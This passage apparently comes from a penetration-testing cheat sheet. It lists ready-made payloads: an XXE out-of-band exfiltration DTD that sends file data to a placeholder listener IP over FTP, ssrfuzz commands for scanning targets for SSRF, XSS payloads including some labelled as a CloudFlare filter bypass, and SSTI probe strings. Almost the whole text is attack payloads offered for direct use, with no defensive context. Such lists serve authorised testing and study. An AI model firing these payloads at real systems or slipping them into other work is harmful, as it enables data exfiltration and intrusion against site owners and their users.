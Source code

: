 ```bash
<!ENTITY % sp SYSTEM "http://<listener_ip>:<port>/sp.dtd">
%sp;
%param3;
%exfil;
]>

## External dtd: ##
<!ENTITY % param3 "<!ENTITY &#x25; exfil SYSTEM 'ftp://<listener_ip>:<port>/%data3;'>">
```

---

### SSRF

[ssrfuzz](https://github.com/ryandamour/ssrfuzz)

```bash
go get -u github.com/ryandamour/ssrfuzz

echo "http://<target>" | ssrfuzz scan
echo "http://<target>/test.php?u=" | go run main.go scan
cat file_of_domains.txt | ssrfuzz scan
ssrfuzz scan -d file_of_domains.txt
```

---


### XSS

Cross-Site Scripting

```bash
<svg/onload=prompt(1000)>

test+(<script>prompt(1000)</script>)@example.com
test@example(<script>prompt(1000)</script>).com
"<script>alert(1000)</script>"@example.com

# CloudFlare bypass
<svg onload=alert%26%230000000040"1")>
<svg onload=prompt%26%230000000040document.domain)>
<svg onload=prompt%26%23x000000028;document.domain)>
```


---


### SSTI

Server Side Template Injection

```bash
{{8*8}}
${9*9}
#{6*6}
<%= 5 * 5 %>

"<%= 7 * 7 %>"@example.com 
test+(${{7*7}})@example.com
```

---